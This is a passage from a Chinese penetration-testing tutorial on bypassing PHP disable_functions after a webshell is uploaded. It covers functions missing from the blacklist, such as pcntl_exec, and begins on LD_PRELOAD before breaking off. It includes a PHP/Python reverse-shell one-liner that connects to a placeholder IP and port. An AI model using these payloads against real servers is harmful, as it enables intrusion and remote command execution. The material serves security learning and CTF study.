 

# 常见Bypass Disable Functions方法

# [](#%E5%B8%B8%E8%A7%81-bypass-disable-functions-%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93)常见 Bypass Disable Functions 方法总结

## [](#1-%E8%83%8C%E6%99%AF)1 背景

`PHP.ini` 中可以设置禁用一些危险函数，例如 eval、exec、system 等，将其写在 php.ini 配置文件中，就是我们所说的 `disable_functions` 了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在 disable\_functions 的设置中也通常较为严格。

如果在渗透时，上传了 webshell 却因为 disable\_functions 禁用了函数而无法执行命令，这时候就需要想办法进行绕过，突破 disable\_functions。

## [](#2-%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87)2 黑名单绕过

即便是通过 disable functions 限制危险函数，也可能会有限制不全的情况。可以执行命令的函数可以参考：[PHP webshell 检测](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)。还有一个比较常见的易被忽略的函数就是 `pcntl_exec`。

> pcntl 是 linux 下的一个扩展，可以支持 php 的多线程操作。很多时候会碰到禁用 exec 函数的情况，但如果运维人员安全意识不强或对 PHP 不甚了解，则很有可能忽略 pcntl 扩展的相关函数。

使用 `pcntl_exec` 的前提是开启了 `pcntl` 插件。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>if(function_exists('pcntl_exec')) {<br>   pcntl_exec("/bin/bash", array("/tmp/test.sh"));<br>} else {<br>       echo 'pcntl extension is not support!';<br>}<br>?><br>``` |

由于 `pcntl_exec()` 执行命令是没有回显的，所以其常与 python 结合来反弹 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```php<br><?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));<br>``` |

[蓝帽杯决赛](https://whoamianony.top/2020/12/21/CTF%e6%af%94%e8%b5%9b%e8%ae%b0%e5%bd%95/%e7%ac%ac%e5%9b%9b%e5%b1%8a%e2%80%9c%e8%93%9d%e5%b8%bd%e6%9d%af%e2%80%9d%e5%85%a8%e5%9b%bd%e5%a4%a7%e5%ad%a6%e7%94%9f%e7%bd%91%e7%bb%9c%e5%ae%89%e5%85%a8%e6%8a%80%e8%83%bd%e5%a4%a7%e8%b5%9b%e5%86%b3%e8%b5%9bWriteUp/#php)中存在相关利用方式。

## [](#3-%E5%88%A9%E7%94%A8-ld_preload-%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)3 利用 LD\_PRELOAD 环境变量

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

`LD_PRELOAD` 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它可以在用户的程序运行前优先加载该动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，可以利用此功能来使用自定义的函数，而另一方面，可以向别人的程序注入程序，从而达到特定的攻击目的。

前提：
